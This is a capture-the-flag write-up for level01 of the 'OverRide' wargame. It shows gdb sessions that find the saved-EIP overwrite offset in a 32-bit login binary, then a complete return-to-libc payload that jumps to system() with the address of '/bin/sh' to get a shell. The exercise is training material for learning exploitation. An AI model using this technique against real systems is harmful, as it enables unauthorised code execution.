```sh
```

We overwrote the EIP so we can control it.


After gradually increasing the number of A we find exacly when the EIP is getting overwritten.

```sh
level01@OverRide:~$ python -c "print 'dat_wil' + '\n' + 'A' * 80" > /tmp/exploit
level01@OverRide:~$ gdb ./level01
(gdb) run < /tmp/exploit
Starting program: /home/users/level01/level01 < /tmp/exploit
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0xf7e4000a in ?? () from /lib32/libc.so.6
```

And if we give 4 more byte...

```sh
level01@OverRide:~$ python -c "print 'dat_wil' + '\n' + 'A' * 84" > /tmp/exploit
level01@OverRide:~$ gdb ./level01
(gdb) run < /tmp/exploit
Starting program: /home/users/level01/level01 < /tmp/exploit
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

We control the EIP.

The program doesn't have any call or function that execute a shell, or anything that can give us the next password.

So im going to try a return-to-Libc exploit, since we control the EIP, that the binary loads the libc, and that we have 32 byte to write.

The exploit will look like this
```sh
python -c "print 'dat_wil' + '\n' + 'A' * 80 + '\xd0\xae\xe6\xf7' + 'AAAA' + '\xec\x97\xf8\xf7'" | ./level01
```

Using the system() addresses, and then random byte ( i could give the exit to not print log but whatever ), and then address of "/bin/sh".
